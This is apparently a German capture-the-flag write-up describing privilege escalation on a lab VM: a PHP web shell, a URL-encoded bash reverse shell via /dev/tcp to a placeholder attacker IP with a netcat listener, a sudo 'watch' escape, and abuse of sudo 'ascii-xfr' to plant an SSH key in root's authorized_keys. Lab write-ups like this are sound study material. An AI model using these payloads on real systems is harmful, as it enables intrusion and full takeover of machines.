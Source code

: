 ### www-data zu henry (Sudo/watch)

1.  **Web Shell und Reverse Shell als `www-data`:**
    *   Eine PHP-Web-Shell (`ben.php`) wurde auf dem Server platziert (vermutlich über die LFI/SSRF-Schwachstelle oder eine andere nicht gezeigte Methode) und genutzt, um eine Reverse Shell als `www-data` zu etablieren.
        ```bash
        # Auf Angreifer-Maschine:
        # python3 -m http.server 4444 (zum Hosten der Web Shell)
        # nc -lvnp 9001 (Listener)
        # Via Browser/curl (URL-kodiert):
        # http://hopper.vm/ben.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F[Angreifer-IP]%2F9001%200%3E%261%27
        ```
2.  **Sudo-Rechte-Prüfung für `www-data`:**
    *   `sudo -l` (als `www-data`) zeigte eine Regel, die es erlaubte, `watch` als Benutzer `henry` auszuführen.
3.  **Ausnutzung:**
    *   `sudo -u henry watch -x sh -c 'reset; exec sh 1>&0 2>&0'`
    *   Dies gewährte eine Shell als Benutzer `henry`. Die Shell wurde mit Python PTY stabilisiert.

### henry zu root (Sudo/ascii-xfr)

1.  **Sudo-Rechte-Prüfung für `henry`:**
    *   `sudo -l` (als `henry`) zeigte eine Regel, die es erlaubte, `ascii-xfr` (vermutlich als `root`) auszuführen.

2.  **Vorbereitung des SSH-Schlüssels:**
    *   Als `henry` wurde ein neues SSH-Schlüsselpaar generiert (Passphrase: `benni`):
        ```bash
        mkdir ~/.ssh
        cd ~/.ssh
        ssh-keygen
        cp id_rsa.pub authorized_keys
        ```

3.  **Ausnutzung von `sudo ascii-xfr`:**
    *   Der öffentliche Schlüssel von `henry` wurde in die `authorized_keys`-Datei von `root` geschrieben:
        ```bash
        sudo ascii-xfr -rv /root/.ssh/authorized_keys < authorized_keys
        ```
4.  **SSH-Login als `root`:**
    *   `ssh root@localhost -i /home/henry/.ssh/id_rsa` mit der Passphrase `benni` war erfolgreich.

---